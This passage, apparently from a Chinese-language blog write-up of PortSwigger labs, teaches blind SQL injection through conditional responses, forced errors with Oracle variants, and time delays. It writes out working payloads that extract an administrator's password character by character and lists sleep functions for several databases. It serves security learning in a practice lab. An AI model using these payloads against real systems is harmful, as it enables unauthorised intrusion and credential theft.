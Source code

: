 在repeater中不断修改长度，最终得到密码有20位，还是挺复杂的。接下来就可以尝试获取密码的具体值了。

`' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`

这部分较为简单的方法就是使用intruder写payload进行自动攻击。

Password:`l0libd4yt463lcxyow0c`

可以明显感觉到从这一题开始不像开始那么简单了，工作量变得很大，所以我们应该更加注重工具的使用。

#### 2）通过触发SQL错误引入条件响应

当网站不会在数据库返回为空时显示不同的响应时，上面的注入就不能成功了。在这种情形下，通常可能的方式是通过引发SQL错误导致网页显示不同的响应。下面是两个cookie请求：

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

这些输入使用了关键字CASE根据不同的条件返回不同的表达式，第一个输入会返回`'a'`而第二个输入会返回`1/0`并造成devide-by-zero错误。此错误可能会造成页面的些许区别，如果有区别，我们就可以使用此区别来获取一些信息，如admin的密码：若密码第一位大于m则正常输出，若小于m则报错。

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

> ###### [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

尝试用前两个请求作为输入，都会显示Internal Sever Error，原因可能是数据库种类的问题。提示说是Oracle数据库，所以应该使用Oracle对应的格式。

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual 
```

这一次的payload就不再显示错误了，通过此输入判断密码长度为

```sql
' AND (SELECT CASE WHEN(username='administrator' AND LENGTH(password)>0) THEN to_char(1/0) ELSE 'a' END FROM dual)='a
```

#### 3) 通过触发时延(Time delays)进行盲注

如果应用会捕捉并处理数据库错误，上面的方法就不再适用。在这种情形下，由于SQL请求通常是同步运行的，延迟处理SQL请求意味着HTTP应答的延迟。所以，就可以通过HTTP相应的时延判断SQL运行的时延。触发时延的方法根据数据库种类的不同而不同，SQL Server中可以用以下代码触发：

```sql
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 	--不会触发
'; IF (1=1) WAITFOR DELAY '0:0:10'--	--会触发
/*
其他数据库：
Oracle 			dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 			SELECT sleep(10) 
*/
# 然后就可以用此方法获得信息。
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```
